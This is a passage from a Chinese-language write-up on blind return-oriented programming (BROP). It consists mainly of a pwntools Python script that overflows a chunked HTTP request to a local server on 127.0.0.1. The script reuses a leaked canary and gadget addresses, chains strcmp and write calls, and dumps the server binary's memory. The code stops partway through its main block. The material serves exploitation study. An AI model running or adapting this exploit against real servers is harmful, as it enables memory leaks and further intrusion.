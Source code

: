 ![image-20220808164459943](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808164459943.png)

![image-20220808164812773](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808164812773.png)

#### Dump内存

```python
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def dump_addr(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget, strcmp_plt,write_plt,start_addr=0x400000):
    result = ""
    while start_addr<0x405000:
        s = connect("127.0.0.1", 80)
        s.send(
            base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget + 7) + p64(0x400020) + p64(
                0) + p64(useful_gadget + 9) + p64(0x400000) + p64(strcmp_plt) + p64(useful_gadget + 7) + p64(start_addr) + p64(
                start_addr) + p64(useful_gadget + 9) + p64(3) + p64(write_plt) + p64(stop_gadget) * (depth - 13))
        checkstr = s.recv(timeout=0.5)
        s.close()
        result+=checkstr
        log.info("addr:0x%x",start_addr)
        start_addr += 0x40
    return result
if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x81\xdf\x79\x04\x9d\x8b\x37"
    buf_size = 24
    stop_gadget = 0x402580
```